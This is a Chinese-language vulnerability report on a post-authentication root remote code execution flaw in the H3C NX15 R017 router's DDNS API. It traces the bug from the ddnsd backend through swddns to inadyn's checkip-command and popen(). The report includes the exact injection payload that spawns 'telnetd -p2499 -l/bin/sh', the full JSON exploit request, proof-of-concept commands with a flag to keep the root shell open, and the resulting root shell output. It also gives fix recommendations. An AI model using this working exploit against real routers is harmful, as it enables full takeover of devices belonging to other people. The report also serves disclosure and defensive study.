









# NX15 R017 `esps.ddns.set -> swddns -> inadyn checkip-command` 后置独立 root RCE

## 1. 结论

在 NX15 R017 上，`POST /api/esps` 的：

- `object = esps.ddns`
- `method = set`

存在一条**新的、独立的、后认证 root RCE**。

- **接口**：`POST /api/esps`
- **对象**：`esps.ddns`
- **方法**：`set`
- **注入点**：`domain`
- **触发器**：`ddnsd` 对 `noip` 配置的自动重载 / `swddns` 生成 `/var/inadyn_noip` 后由 `inadyn` 立即消费
- **权限**：后认证（管理员会话）
- **结果**：以 **root** 权限执行攻击者控制的 `checkip-command`
- **验证设备**：`192.168.8.1`，NX15 firmware `R017`
- **结论等级**：**Confirmed / Exploited**

本轮已经实机确认：攻击者只需通过 raw `/api/esps` 绕过前端校验，向 `domain` 写入一个带换行的 `inadyn` 配置片段，即可让路由器自动启动攻击者指定的命令。

最终落地 payload：

```text
a
checkip-command = "telnetd -p2499 -l/bin/sh"
```

效果：

1. `esps.ddns.set` 返回 `code = 0`；
2. 约 1 秒内，设备自动启动：
   - `telnetd -p2499 -l/bin/sh`
3. 直接连接 `192.168.8.1:2499`，拿到 BusyBox **root shell**；
4. `id` 输出：
   - `uid=0(root) gid=0(root)`

这条链本身就是一条明确的“业务接口 -> 配置注入 -> 外部程序执行” root RCE。

---

## 2. 根因分析

这条链分为三段：

1. **写入段**：`esps.ddns.set`
2. **生成段**：`/usr/bin/swddns`
3. **执行段**：`/usr/bin/inadyn`

### 2.1 前端做了严格校验，但后端 raw API 仍可直接写入换行和双引号

前端 DDNS 页面对应的 JS 中：

- `user/password` 使用 `G()` 校验，黑名单包含：
  - `/ \ ' " > ; & \\` : <`
- `domain` 还额外限制为：
  - `^[-a-zA-Z0-9_.:/]*$`
- `domain` 前端长度限制：
  - `max-length = 63`

也就是说：

- 正常 UI 无法直接输入换行；
- 正常 UI 也无法输入 `"..."` 这种 quoted payload；
- 但 raw `/api/esps` 调用并没有复用同等强度的后端约束。

本轮动态已确认：

- `domain = "probe.example.com\nINJECT_MARKER = 1"` 可成功保存；
- `uci show ddns` 能看到真实换行；
- `inadyn --check-config -f /var/inadyn_noip` 会把注入的第二行当成新的配置项解析。

这说明根因不是“前端没拦住”，而是：

> **后端 `esps.ddns.set` 允许攻击者通过 raw API 把多行配置注入到 DDNS 配置值里。**

### 2.2 `swddns` 把 UCI 中的 `domain` 原样写进 `inadyn` 配置文件

关键脚本：

- `usr/bin/swddns`

关键逻辑：

```sh
cat <<EOL >/var/inadyn_noip
provider default@no-ip.com {
    ssl         = true
    username    = $username
    password    = $password
    hostname    = $domain
}
EOL
```

这里的危险点不是 shell 命令替换，而是：

- `$domain` 中若含有真实换行，
- 那么写出的 `/var/inadyn_noip` 就会产生**额外配置行**。

本轮 hexdump 已确认，当 `domain` 为：

```text
probe.example.com
INJECT_MARKER = 1
```

时，`/var/inadyn_noip` 中实际落地为：

```text
hostname = probe.example.com
INJECT_MARKER = 1
}
```

即：**换行注入真实进入了 `inadyn` 配置文件。**

### 2.3 `inadyn` 支持 `checkip-command`，并接受带双引号的带参命令值

固件内 `usr/bin/inadyn` 的 strings 明确显示其支持：

- `checkip-command`
- `exec`
- `exec-mode`
- `/bin/sh`

而本轮动态进一步证明：

- `checkip-command = /usr/sbin/telnetd`
  - `--check-config` 返回成功
  - `esps.ddns.set` 后**自动触发** no-arg `telnetd` 启动
- `checkip-command = "telnetd -p2499 -l/bin/sh"`
  - 作为注入值成功保存
  - `inadyn` 消费配置后，成功启动带参数的 `telnetd -p2499 -l/bin/sh`

这说明 `checkip-command` 不只是“影响业务状态”，而是**真实进入了 root 进程的命令执行路径**。

### 2.4 `esps.ddns.set` 之后会自动触发 `ddnsd/noip` 重载，无需额外重启

这点非常关键。

验证中，单独发送一次：

- `object = esps.ddns`
- `method = set`

携带恶意 `domain` 后，**无需再手工重启整机，也无需额外调用其它 apply 接口**，约 1 秒内就观察到：

- `telnetd -p2499 -l/bin/sh` 启动
- TCP `2499` 进入监听状态

说明这条链是：

> **即时型 post-auth root RCE**，不是“只写配置、等待很久后条件触发”的弱链。

---

## 3. 关键静态 / IDA 逆向证据

### 3.1 前端原本试图阻断危险字符

`www/assets/index-50243581.1745387614770.js` 中：

- `function Z(e)` 调的是：
  - `object:"esps.ddns", method:"set"`
- `const G=e=>{const l=/[/\\'">;&`:<]/; ... }`
- `domain` 校验：
  - `^[-a-zA-Z0-9_.:/]*$`

说明：

- UI 设计者已经意识到 DDNS 字段不该允许危险字符；
- 但 raw API 缺少等价后端约束，形成前后端校验不一致。

### 3.2 `swddns` 把 `domain` 直接写入 `/var/inadyn_noip`

`usr/bin/swddns`：



而且是 heredoc 直接落盘。

### 3.3 `ddnsd` RPC 注册：`POST /api/esps` 会进入 `esps.ddns.set`

/usr/bin/ddnsd

函数：

```text
DDNSD_RPC_Init @ 0x402A08
```

反编译证据：



含义：

```text
1. ddnsd 通过 sw_rpc_data_create_obj() 注册 RPC object：esps.ddns；
2. 方法表地址是 0x414028；
3. 方法数量是 4；
4. 因此前端/raw API 中的 object="esps.ddns" 最终会进入 ddnsd 的 RPC 方法分发。
```

已恢复出的 `esps.ddns` 方法表关键项如下：



所以本漏洞请求：

```json
{"object":"esps.ddns","method":"set", ...}
```

会命中：

```text
cbIn      = sub_401BA4    // DDNSD_SET_DataTransIn
cbProcess = sub_401FB8    // DDNSD_SET_Process
```

### 3.4 `ddnsd` 参数解析：`domain` 只做长度检查，没有禁止换行/双引号

函数：

```text
sub_401BA4 @ 0x401BA4    // DDNSD_SET_DataTransIn
```

该函数通过 `blobmsg_parse()` 解析 `set` 参数，policy 为 6 个字符串字段：

```text
serviceName
status
user
password
domain
intf
```

关键反编译证据：



关键结论：

```text
domain 字段只要求 strlen(domain) < 0x41；
没有检查 \n；
没有检查 \r；
没有检查双引号 "；
没有复用前端 /^[-a-zA-Z0-9_.:/]*$/ 白名单；
因此 raw API 可以把 a\ncheckip-command = "..." 送入后端。
```

这就是前端 UI 校验能被 raw API 绕过的后端逆向证据：raw API 不是绕过后端，而是直接把请求打到后端；问题在于后端只做长度/枚举检查，没有做等价字符校验。

### 3.5 `ddnsd` 处理函数：把 `domain` 原样写入 UCI，并自动执行 `swddns noip restart`

函数：

```text
sub_401FB8 @ 0x401FB8    // DDNSD_SET_Process
```

关键反编译证据一：写入 `/etc/config/ddns`：



这里 `a1 + 164` 正是上一节 `sub_401BA4` 中保存的 `domain` 字段。因此：

```text
raw API domain
  -> sub_401BA4 buf+164
  -> sub_401FB8 CFG_SetOptionValueByCtx(..., "domain", a1+164)
  -> /etc/config/ddns
```

关键反编译证据二：写入后自动重启对应 DDNS 服务：



服务映射表恢复如下：



因此当请求中：

```json
"serviceName": "noip"
```

时，`ddnsd` 在提交 UCI 后会自动执行：

```sh
swddns noip restart
```

这解释了为什么该漏洞是即时触发：攻击者只要调用一次 `esps.ddns.set`，不需要整机重启，也不需要额外 apply 接口。

### 3.6 `swddns` 生成 `/var/inadyn_noip` 并启动 `inadyn`

脚本路径：

```text
/usr/bin/swddns
```

关键代码：

```sh
generate_noip_config_file()
{
    local username=$1
    local password=$2
    local domain=$3

    cat <<EOL >/var/inadyn_noip
# Inadyn v2.0 configuration file format0
period          = 60
ca-trust-file   = /etc/ssl/cert.pem

provider default@no-ip.com {
    ssl         = true
    username    = $username
    password    = $password
    hostname    = $domain
}
EOL
}
```

noip 启动路径：

```sh
noip_start()
{
    swddns_get_service_config "noip"

    if [ "$(cat $FACTORYLOCKFILE)" = "1" ] && [ "enable" = "$swddns_status" ]; then
        generate_noip_config_file "${swddns_username}" "${swddns_password}" "${swddns_domain}"
        inadyn -f /var/inadyn_noip & > /dev/null
    fi
}
```

因此，恶意 `domain`：

```text
a
checkip-command = "telnetd -p2499 -l/bin/sh"
```

会把 `/var/inadyn_noip` 改写成：

```text
provider default@no-ip.com {
    ssl         = true
    username    = u
    password    = p
    hostname    = a
checkip-command = "telnetd -p2499 -l/bin/sh"
}
```

并由：

```sh
inadyn -f /var/inadyn_noip
```

立即消费。

### 3.7 `inadyn` 逆向证据：`checkip-command` 被解析、保存并通过 `popen()` 执行

```text
/usr/bin/inadyn
```

#### 3.7.1 `main()` 证明 `-f` 参数进入配置解析器

函数：

```text
main @ 0x4034D8
```

关键反编译证据：

```c
v12 = getopt_long(argc, argv, "1c:Ce:f:h?i:I:jl:LnNp:P:sS:t:v", &off_428D04, 0);

if ( v12 == 102 )                    // 'f'
{
    config = strdup(optarg);
}

cfg = inadyn_conf_parse_file(config, state);
rc  = ddns_main_loop(state);
```

所以：

```sh
inadyn -f /var/inadyn_noip
```

会进入：

```text
inadyn_conf_parse_file("/var/inadyn_noip", state)
ddns_main_loop(state)
```

#### 3.7.2 配置项表明确注册 `checkip-command`

函数：

```text
inadyn_conf_parse_file @ 0x409238
```

字符串与交叉引用：

```text
0x415390  "checkip-command"
  xref 0x4093E4  inadyn_conf_parse_file
  xref 0x409050  inadyn_parse_provider_section
```

配置项表关键反编译证据：

```c
// provider section option table
v14[260] = "checkip-command";
v14[261] = 3;

// custom section option table
v15[260] = "checkip-command";
v15[261] = 3;
```

因此 `checkip-command` 是 `inadyn` 明确支持的合法字符串配置项，不是误解析或未定义行为。

#### 3.7.3 provider 解析阶段保存 `checkip-command`

函数：

```text
inadyn_parse_provider_section @ 0x408934
```

关键反编译证据：



偏移换算：

```text
provider_state[439]
= provider_state + 439 * 4
= provider_state + 1756
= provider_state + 0x6DC
```

所以注入值会进入运行时结构：

```text
provider_state->checkip_command = "telnetd -p2499 -l/bin/sh"
```

#### 3.7.4 checkip 阶段通过 `popen()` 执行

函数：

```text
inadyn_get_ip_by_checkip_or_server @ 0x40658C
```



也就是说，本漏洞最终 sink 是：

```c
popen(command, "r");
```

### 3.8 逆向闭环总结

完整静态/逆向闭环如下：

```text
POST /api/esps
  object = esps.ddns
  method = set
        |
        v
/usr/bin/ddnsd
  DDNSD_RPC_Init()
    -> sw_rpc_data_create_obj("esps.ddns", method_table=0x414028, count=4)
  method "set"
    -> sub_401BA4 parses serviceName/status/user/password/domain/intf
    -> domain only checks strlen(domain) < 0x41
    -> no newline / quote / whitelist validation
    -> sub_401FB8 writes CFG_SetOptionValueByCtx(..., "domain", a1+164)
    -> cfg_commit("ddns")
    -> system("swddns noip restart")
        |
        v
/usr/bin/swddns
  config_get swddns_domain noip domain
  heredoc writes hostname = $swddns_domain into /var/inadyn_noip
  domain newline injects a new line:
      checkip-command = "telnetd -p2499 -l/bin/sh"
  starts:
      inadyn -f /var/inadyn_noip
        |
        v
/usr/bin/inadyn
  main()
    -> -f sets config path
    -> inadyn_conf_parse_file(config)
  inadyn_conf_parse_file()
    -> registers/accepts "checkip-command"
  inadyn_parse_provider_section()
    -> cfg_getstr("checkip-command")
    -> provider_state+0x6DC = strdup(cmd)
  inadyn_get_ip_by_checkip_or_server()
    -> cmd = *(provider_state+0x6DC)
    -> snprintf("INADYN_PROVIDER=... INADYN_USER=... %s", cmd)
    -> popen(command, "r")
        |
        v
telnetd -p2499 -l/bin/sh
  -> root shell
```

这使该漏洞从“动态现象 + strings 命中”提升为完整闭环的逆向证明：入口、参数接收、缺失校验、配置落盘、服务重启、配置生成、配置解析、命令保存、命令执行 sink 全部可由代码证据对应。

---

## 4. 动态验证

## 4.1 配置注入已被实机确认

已确认：

1. `esps.ddns.set` 可写入含换行的 `domain`；
2. `checkip-command = "..."` 这种 quoted value 能通过 `inadyn --check-config`；
3. `checkip-command = /usr/sbin/telnetd` 时，自动触发无参数 `telnetd` 启动；
4. 证明 `checkip-command` 是一条真实的命令执行入口。

## 4.2 最终成功 payload

最终落地 payload：

```text
a
checkip-command = "telnetd -p2499 -l/bin/sh"
```

长度：

- **46 字节**

满足前端 `domain` 字段的 63 字节上限背景，也便于稳定复现。

## 4.3 发送请求

利用请求核心体：

```json
[
  {
    "id": 1,
    "object": "esps.ddns",
    "method": "set",
    "param": {
      "serviceName": "noip",
      "status": "enable",
      "user": "u",
      "password": "p",
      "domain": "a\ncheckip-command = \"telnetd -p2499 -l/bin/sh\"",
      "intf": "WAN1"
    }
  }
]
```

返回：

```json
[{"id":1,"result":{"message":"Success","data":{"code":0},"code":0}}]
```

## 4.4 自动触发根 shell

关键运行证据：

1. `ps` 出现：

```text
telnetd -p2499 -l/bin/sh
```

2. `netstat` 出现：

```text
:::2499 LISTEN ... telnetd
```

3. 直接连接 `192.168.8.1:2499` 后，获得 BusyBox shell：

```text
BusyBox v1.30.1 ... built-in shell (ash)
/ # id
uid=0(root) gid=0(root)
```

4. POC 还进一步打印了：

```text
Linux NX15 4.4.176-svn22943 ... mips GNU/Linux
```

这证明攻击者已经获得**真实 root 代码执行 / root 交互 shell**。

---

## 5. 影响评估

这是一个**高危、独立、稳定、即时触发**的后认证 root RCE。

攻击者在拿到管理员会话后，可以直接：

- 启动 root shell 服务；
- 写入启动项实现持久化；
- 篡改防火墙 / DNS / PPPoE / Wi-Fi / ACL / UCI 配置；
- 下载和执行额外二进制；
- 作为后续提权、横向、流量劫持的跳板。

这条链已经能**一步落地 root shell**，风险等级应按**完整设备接管**评估。

---

## 6. 复现条件与稳定性

### 6.1 复现条件

- 设备：H3C NX15 R017
- 地址：`192.168.8.1`
- 权限：管理员会话
- 接口：`POST /api/esps`
- 对象：`esps.ddns`
- 服务：`noip`

### 6.2 稳定性结论

本轮多次验证表明：

- 换行注入稳定；
- quoted `checkip-command` 可稳定通过；
- `set` 后自动触发，无需整机重启；
- `telnetd -p2499 -l/bin/sh` 可稳定拉起 root shell。

因此结论为：

> **Confirmed / Stable enough for weaponized PoC**

---

## 7. POC

- `poc/postauth_esps_ddns_checkip_command_rce.py`

标准复现命令：

```bash
python3 poc/postauth_esps_ddns_checkip_command_rce.py \
  --base http://192.168.8.1 \
  --host 192.168.8.1 \
  --username admin \
  --password 'admin123' \
  --port 2499
```

参数含义：

```text
--base       Web 管理接口 base URL，例如 http://192.168.8.1
--host       设备 IP，用于等待并连接被拉起的 telnetd
--username   Web 管理账号
--password   Web 管理密码
--port       payload 中 telnetd 监听端口，默认 2499
```

如果希望 PoC 成功后保留 root shell，不自动 kill `telnetd`，也不恢复原始 DDNS 配置，可使用：

```bash
python3 poc/postauth_esps_ddns_checkip_command_rce.py \
  --base http://192.168.8.1 \
  --host 192.168.8.1 \
  --username admin \
  --password 'admin123' \
  --port 2499 \
  --keep-shell
```

默认不加 `--keep-shell` 时，PoC 的执行流程是：

```text
login -> backup noip config -> write malicious domain -> wait 2499/tcp -> connect shell -> run id/uname -> kill telnetd -> restore original noip config
```

预期关键输出应包含：

```text
[*] Step 4: wait for root telnet shell on 192.168.8.1:2499
[*] Step 5: connect spawned root shell and extract proof
uid=0(root) gid=0(root)
Linux NX15 4.4.176-svn22943 ... mips GNU/Linux
[+] SUCCESS: obtained root code execution via esps.ddns checkip-command injection
```

## 8. 修复建议

1. **后端** 对 `esps.ddns.set` 的 `user/password/domain` 做严格校验，禁止：
   - 换行 `\n` / `\r`
   - 引号 `"` / `'`
   - 以及任何能改变配置语义的分隔字符
2. 不要把用户可控字符串直接写进外部程序配置文件；
3. 若必须生成配置文件，使用严格转义/编码，而不是直接拼文本；
4. 对 `inadyn` 这类外部程序，避免启用能执行外部命令的配置项，或在生成时强制白名单字段；
5. 确保**后端校验不少于前端校验**，避免 raw API 绕过前端限制。

---

## 9. 最终结论

`esps.ddns.set` 在 NX15 R017 上存在一条明确、独立、后认证的 root RCE：

- 攻击者通过 raw `/api/esps` 向 `domain` 注入多行 `inadyn` 配置；
- `ddnsd` 后端只做长度检查，将恶意 `domain` 原样提交到 UCI；
- `ddnsd` 提交配置后自动执行 `swddns noip restart`；
- `swddns` 从 UCI 读取 `domain`，通过 heredoc 写入 `/var/inadyn_noip` 并启动 `inadyn -f /var/inadyn_noip`；
- `inadyn` 解析 `checkip-command` 后在 checkip 阶段通过 `popen()` 执行；
- 最终可直接拉起 `telnetd -p2499 -l/bin/sh` 并获得 root shell。

**结论：Confirmed root RCE，可直接用于设备接管。**
